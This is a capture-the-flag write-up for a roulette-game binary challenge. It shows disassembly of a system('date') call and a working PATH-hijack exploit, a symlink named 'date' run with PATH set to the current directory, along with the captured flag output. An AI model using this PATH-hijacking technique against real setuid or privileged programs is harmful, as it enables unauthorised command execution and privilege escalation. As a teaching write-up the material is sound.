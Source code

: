 # Binary exploit 3

We're given a [Femtium](femtium-notes.md) binary, that implements a roulette
style game similar to the [binexp2](binexp2.md) challenge, but this time, the
random number generator is not as flawed as in the previous case.

It looks like the source of randomness in this version is direct syscalls to
the kernel — presumably the getrandom(2) call. We could perhaps attempt to
control the random seed in the kernel or the emulator somehow to reduce the
problem to one we've already solved, but there's another bug in this version
that makes it significantly easier to gain control of this binary compared
to the previous version anyway:

I was looking through the disassembly, and in the `highscores` function, I came
across a call to the `system` function with an argument of `date`:

```
004022c0: 47df00d0  add     sp, sp,-48          ; Prologue
004022c4: 377f002c  stw     ra, [sp+44]
004022c8: 379f0028  stw     fp, [sp+40]
004022cc: 479f0030  add     fp, sp,48

004022d0: 83c03860  movi    t0, 0x000001c3      ; STRING: "date"
004022d4: 8bc00036  addi    t0, 0x00400000
004022d8: 406f0000  mov     a0, t0
004022dc: 477f800c  add     ra, ip,12           ; call
004022e0: 87207b22  movi    at0, 0x00000f64     ; ...
004022e4: 8f200000  addi    at0, 0x00000000     ; ...
004022e8: 47fff200  jmp     ip+at0              ; call 00403250: system
```

In other words, when displaying the high score list, the process calls out to
the shell to display the date. Since the argument is not the absolute location
of the date binary, the shell will use the PATH variable to find it. We control
the environment before invoking the executable, so we also control the PATH. We
can simply set the PATH such that a directory we control is before the real
location of the date command, put a new `date` command in the directory we
control, and the trick is done. In this case, the `binexp3/` directory itself
is owned by us, and the code we want to execute to get the flag is the
`binexp3_flag` binary, so we can simply make a symlink from that file to `date`,
run `binexp3` with a modified PATH, and view the highscore list:

```
hacker@sphinx # cd binexp3/
hacker@sphinx # ln -s binexp3_flag date
hacker@sphinx # PATH=. ./binexp3
                 _      _   _
 _ __ ___  _   _| | ___| |_| |_ ___
| '__/ _ \| | | | |/ _ \ __| __/ _ \
| | | (_) | |_| | |  __/ |_| ||  __/
|_|  \___/ \__,_|_|\___|\__|\__\___|

Welcome to the roulette v2.
This time we made sure the house always wins. Good luck.

Your current balance is $100

What do you want to do?
1> Play
2> View highscores
3> Exit
> 2
FE{Sh3_sells_C_shells_by_the_C_sh0re}

Latest highscores:
1. 1337 FENIX
2. 1085 torvalds
3. 1002 josh

Your current balance is $100

What do you want to do?
1> Play
2> View highscores
3> Exit
> 3
```


## Flag

`FE{Sh3_sells_C_shells_by_the_C_sh0re}`


---
_Peter Tirsek, 2020-01-20_
